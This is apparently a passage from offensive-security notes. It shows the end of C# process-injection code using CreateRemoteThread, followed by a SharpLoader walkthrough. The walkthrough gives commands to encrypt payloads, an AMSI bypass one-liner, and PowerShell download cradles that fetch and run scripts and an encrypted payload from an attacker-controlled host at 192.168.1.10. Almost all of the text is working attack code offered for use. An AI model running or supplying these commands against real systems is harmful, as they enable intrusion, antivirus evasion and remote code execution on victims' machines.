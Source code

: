 ```csharp

                IntPtr threadAddr = CreateRemoteThread(hProcess, IntPtr.Zero, 0, expAddr, IntPtr.Zero, 0, IntPtr.Zero);
                Console.WriteLine($"Created remote thread at {threadAddr}. Check your listener!");
                break;
            }
        }
    }
}

```
<br>
<br>

## SharpLoader

[Sharploader]('https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader')

- First, encrypt all your csharp files on the attacker machine using invoke-sharpencrypt.
- Second, places all your encrypted files on your apache server.
- Third, create a powershell script using the amsi string below.
- Fourth, Run the amsi script inside the powershell cradle. Finally, Run Invoke-sharploader inside a powershell cradle.

<br>

### 1/2

```csharp
Invoke-SharpEncrypt -file C:\Path\to\file.exe -password SuperDumperStrongPassword -outfile C:\Path\to\file.enc
```
<br>

### 3

```powershell
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true)
```
<br>

### 3

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.1.10/amsi.ps1')
```
<br>

### 4

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.1.10/Invoke-SharpLoader.ps1');Invoke-SharpLoader -location https://192.168.1.10/runner.enc -password SuperDumperStrongPassword -noArgs
```
<br>
<br>
